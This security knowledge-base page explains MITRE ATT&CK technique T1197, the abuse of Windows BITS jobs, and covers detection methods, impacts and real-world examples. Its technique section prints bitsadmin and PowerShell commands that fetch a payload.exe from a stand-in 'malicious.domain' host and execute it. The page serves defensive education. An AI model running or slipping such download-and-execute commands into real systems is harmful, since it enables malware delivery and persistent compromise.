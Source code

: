 ```yaml
---
description: BITS Jobs [T1197]
icon: lock
---
```


# BITS Jobs

## Information

* Name: BITS Jobs
* ID: T1197
* Tactics: [TA0005](../ta0005/), [TA0003](./)

## Introduction

BITS Jobs, or Background Intelligent Transfer Service jobs, is a technique categorized under the MITRE ATT\&CK framework (Technique ID: T1197). BITS is a legitimate Microsoft Windows service designed to facilitate asynchronous, prioritized, and throttled file transfers between machines over HTTP/HTTPS. Attackers exploit this built-in Windows component to stealthily download, execute, or exfiltrate data, leveraging its trusted status to evade detection and blend into normal network activity.

## Deep Dive Into Technique

Background Intelligent Transfer Service (BITS) is a native Windows component utilized primarily by Windows Update and other legitimate applications for transferring files in the background, ensuring minimal disruption to user experience. Attackers abuse BITS due to its native presence, trusted behavior, and ability to bypass certain firewall rules and network security measures.

Technical details and execution methods include:

* **BITSAdmin Tool**: Attackers commonly use the built-in command-line utility `bitsadmin.exe` to create and manage BITS jobs.
  *   Example command to create a job:

      ```
      bitsadmin /create maliciousJob
      bitsadmin /addfile maliciousJob http://malicious.domain/payload.exe C:\Windows\Temp\payload.exe
      bitsadmin /resume maliciousJob
      ```
  *   Execution after download:

      ```
      bitsadmin /complete maliciousJob
      ```
*   **PowerShell Integration**: Attackers may leverage PowerShell cmdlets to manage BITS jobs silently:

    ```powershell
    Start-BitsTransfer -Source "http://malicious.domain/payload.exe" -Destination "C:\Temp\payload.exe"
    ```
* **Persistence and Scheduled Tasks**: Attackers can use BITS jobs in combination with scheduled tasks to achieve persistence, ensuring malicious payloads are regularly downloaded and executed.
* **Data Exfiltration**: BITS can also facilitate data exfiltration by uploading files to attacker-controlled servers over HTTP or HTTPS, blending malicious traffic with legitimate network activities.

## When this Technique is Usually Used

BITS Jobs are commonly utilized by attackers across various stages and scenarios, including:

* **Initial Access and Execution**:
  * Delivering malicious payloads onto compromised hosts, bypassing traditional download restrictions.
  * Executing malware payloads directly after download.
* **Persistence and Scheduled Execution**:
  * Establishing recurring BITS jobs to maintain persistence and regularly update malicious payloads.
* **Defense Evasion**:
  * Using legitimate Windows services to evade detection by endpoint protection software and firewalls.
  * Leveraging trusted process execution (signed Microsoft binaries) to bypass application whitelisting.
* **Command and Control (C2) Communications**:
  * Utilizing BITS to periodically download instructions or payloads from attacker-controlled servers.
* **Data Exfiltration**:
  * Uploading sensitive data to external servers via BITS to conceal data exfiltration within legitimate traffic patterns.

## How this Technique is Usually Detected

Detection of malicious BITS Jobs involves monitoring system events, network traffic, and specific indicators of compromise (IoCs):

* **Event Logs and Process Monitoring**:
  * Monitor Windows Event Logs (Application/System logs) for suspicious BITS job creations and completions.
  * Track usage of `bitsadmin.exe` and PowerShell cmdlets (`Start-BitsTransfer`) with unusual parameters or sources.
* **Endpoint Detection and Response (EDR)**:
  * Use EDR solutions to detect anomalous behaviors, such as unexpected file downloads initiated by BITS.
  * Detect unusual child processes spawned by `svchost.exe` or `bitsadmin.exe`.
* **Network Traffic Analysis**:
  * Inspect outbound HTTP/HTTPS traffic originating from BITS processes (`svchost.exe`) to unusual or unknown external domains or IP addresses.
  * Detect repeated or periodic requests to suspicious URLs.
* **Behavioral Indicators and IoCs**:
  * Unusual BITS job names (e.g., random or suspicious naming conventions).
  * Downloads or uploads of executables or scripts from/to suspicious domains.
  * Unexpected binaries or scripts appearing in temporary directories (`C:\Windows\Temp`, `%APPDATA%`, `%TEMP%`).
* **Tools and Techniques for Detection**:
  * Sysmon (System Monitor) to log process creation, file creation, and network connections.
  * Windows Defender ATP, CrowdStrike Falcon, Carbon Black, or similar EDR platforms to detect anomalous activity.
  * Network IDS/IPS solutions to identify suspicious HTTP/HTTPS traffic patterns associated with BITS.

## Why it is Important to Detect This Technique

Early detection of malicious BITS Jobs is critical due to the following potential impacts:

* **Stealthy Malware Delivery and Execution**:
  * Attackers can quietly deliver and execute malware, ransomware, or remote access tools, bypassing traditional antivirus and firewall protections.
* **Persistence and Long-Term Compromise**:
  * Undetected BITS jobs enable attackers to maintain persistent access, conduct long-term espionage, or repeatedly deliver updated malicious payloads.
* **Data Exfiltration Risks**:
  * Attackers may leverage BITS to exfiltrate sensitive data, such as intellectual property, personally identifiable information (PII), or credentials, causing significant financial and reputational damage.
* **Defense Evasion Capability**:
  * Exploiting trusted Windows services allows attackers to evade traditional security controls, making detection challenging without specialized monitoring.
* **Early Stage Detection Advantage**:
  * Identifying malicious BITS activity early in the attack lifecycle can prevent further lateral movement, privilege escalation, or damage within the network environment.

## Examples

Real-world examples of BITS Jobs abuse in cyber-attacks include:

* **APT Groups and Nation-State Actors**:
  * **APT29 (Cozy Bear)**:
    * Utilized BITS jobs to download second-stage payloads and maintain persistence within compromised environments.
    * Leveraged legitimate Windows utilities (`bitsadmin.exe`) to evade detection by endpoint security solutions.
  * **APT41**:
    * Employed BITS to download and execute payloads during targeted attacks against healthcare and technology sectors.
* **Commodity Malware and Ransomware Campaigns**:
  * **Ryuk Ransomware**:
    * Leveraged BITS jobs to download additional malicious payloads onto compromised systems, enabling lateral movement and further compromise.
  * **Emotet Malware**:
    * Utilized BITS to silently retrieve payload updates and modules from attacker-controlled infrastructure, evading network detection.
* **Penetration Testing Tools and Frameworks**:
  * **Metasploit Framework**:
    * Includes modules (`exploit/windows/local/bits_ntlm_token_impersonation`) that leverage BITS jobs for privilege escalation and payload delivery.
  * **Empire Framework**:
    * Offers built-in functionality to leverage BITS for payload delivery and persistence, demonstrating how attackers commonly exploit this legitimate service.

Impacts observed in these real-world scenarios include:

* Successful evasion of antivirus and endpoint protection solutions.
* Persistent long-term compromise of critical infrastructure, government entities, and private sector organizations.
* Large-scale data breaches and significant financial losses resulting from ransomware infections and data exfiltration.
